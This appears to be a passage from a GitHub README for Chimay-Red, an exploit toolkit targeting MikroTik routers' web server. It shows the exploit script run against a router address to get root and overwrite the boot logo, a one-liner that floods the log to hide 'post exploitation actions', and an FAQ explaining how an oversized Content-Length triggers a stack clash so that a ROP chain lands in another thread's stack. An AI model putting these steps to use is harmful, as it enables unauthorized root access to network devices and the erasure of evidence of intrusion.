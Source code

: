 ### Change boot logo
Only RGB Bitmap 24 bit (not compressed) files are supported.  
Max size: 160px width, 76px height  
You can find a sample [here](docs/logo.bmp)  
```
$ ./StackClash_resock_mips.py 192.168.8.1 80 www_binary docs/logo.bmp /flash/boot/logo.bmp  
[...]
Uploading docs/logo.bmp in /flash/boot/logo.bmp...
Upload done!
sh: turning off NDELAY mode

Got root ;-)

reboot
*** Connection closed by remote host ***
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/boot_image.jpg)

### Hide logs
To remove logs after your post exploitation actions
```
/ # /nova/bin/info ":for i from=1 to=1000 do={ :log info message='Some dummy info' }"
```

# FAQ
## Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

## I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

#### x86  

